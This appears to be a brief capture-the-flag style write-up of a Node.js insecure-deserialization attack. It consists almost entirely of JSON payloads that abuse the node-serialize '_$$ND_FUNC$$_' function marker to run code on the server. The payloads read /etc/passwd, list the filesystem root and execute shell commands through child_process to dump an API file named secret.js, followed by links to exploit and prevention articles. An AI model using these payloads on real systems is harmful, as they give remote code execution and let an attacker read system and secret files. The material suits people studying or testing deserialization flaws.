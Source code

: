 <br />

read files

```
{
"fieldName":"_id",
"fieldValue":1821,
"items":1,
"message":"_$$ND_FUNC$$_function(){ var fs = require('fs'); var result = fs.readFileSync('/etc/passwd', 'utf8'); return result; }()"}
```

<br />

read directories

```
{
"fieldName":"_id",
"fieldValue":1821,
"items":1,
"message":"_$$ND_FUNC$$_function(){ var fs = require('fs'); var result = fs.readdirSync('/', 'utf8'); return result; }()"}
```

<br />

final

```
{
"fieldName":"_id",
"fieldValue":1821,
"items":1,
"message":"_$$ND_FUNC$$_function(){ var execSync = require('child_process').execSync; var result = execSync('ls -la .next/server/pages/api', { encoding: 'utf8' }); return result; }()"}


{
"fieldName":"_id",
"fieldValue":1821,
"items":1,
"message":"_$$ND_FUNC$$_function(){ var execSync = require('child_process').execSync; var result = execSync('cat .next/server/pages/api/secret.js', { encoding: 'utf8' }); return result; }()"}
```

refrence:

- https://www.digitalocean.com/community/tutorials/how-to-launch-child-processes-in-node-js
- https://nodejs.org/api/child_process.html
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
- https://snyk.io/blog/preventing-insecure-deserialization-node-js/

<br /><br />

